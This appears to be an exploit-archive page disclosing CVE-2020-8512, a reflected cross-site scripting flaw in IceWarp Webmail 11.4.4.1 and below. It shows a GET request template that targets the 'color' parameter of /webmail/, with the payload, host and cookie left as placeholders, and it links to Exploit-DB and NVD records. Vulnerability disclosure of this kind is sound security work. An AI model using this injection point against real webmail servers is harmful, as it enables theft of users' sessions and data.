 ```yaml
---
title: "IceWarp <11.4.4.1 Cross-Site Scripting - CVE-2020-8512"
collection: exploits
excerpt: "IceWarp <11.4.4.1 Cross-Site Scripting"
permalink: /exploit/icewarp-xss-exploit
date: 2020-01-27
tags:
  - exploit
  - CVE 2020 8512
  - icewarp
  - Reflected XSS
  - IceWarp Webmail version 11.4.4.1
---
```


**Exploit Author :** Lutfu Mert Ceylan  
**Date :** 27.01.2020  
**Software Link :** https://gitlab.icewarp.com/pub/c-client/tree/tags/11.4.4.1/  
**Vendor Homepage :** https://www.icewarp.com/ <br>
**Version :** IceWarp 11.4.4.1 and below  
**Tested on :** Mozilla Firefox 56.0 && Opera 66.0.3515.44  
**Category :** Reflected XSS  
**CVE ID :** CVE-2020-8512  

<hr><br>  

**GET REQUEST :**

GET /webmail/?color=**XSS PAYLOAD** HTTP/1.1<br>
Host: **targethost**<br> 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:56.0) Gecko/20100101 Firefox/56.0<br> 
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8<br> 
Accept-Language: tr-TR,tr;q=0.8,en-US;q=0.5,en;q=0.3<br> 
Accept-Encoding: gzip, deflate<br> 
Cookie: **cookie**<br> 
Connection: close<br> 
Upgrade-Insecure-Requests: 1<br> 

**Vulnerable Page :**
/webmail/<br> 
**Vulnerable Parameter :**
color

--------

<ul>
<li>Exploit DB : <a href="https://www.exploit-db.com/exploits/47988">47988</a></li>
<li>National Vulnerability Database: <a href="https://nvd.nist.gov/vuln/detail/CVE-2020-8512">https://nvd.nist.gov/vuln/detail/CVE-2020-8512</a></li>
<li>IceWarp WebMail XSS Exploitation: <a href="https://www.youtube.com/watch?v=WJo3-dn3wy4">https://www.youtube.com/watch?v=WJo3-dn3wy4</a></li>
<li>0day.today Record: <a href="https://0day.today/exploit/description/33886">https://0day.today/exploit/description/33886</a></li>
<li>Online Scanner for CVE-2020-8512: <a href="https://securityforeveryone.com/tools/icewarp-webmail-xss-cve-2020-8512">https://securityforeveryone.com/tools/icewarp-webmail-xss-cve-2020-8512</a></li>
<ul>
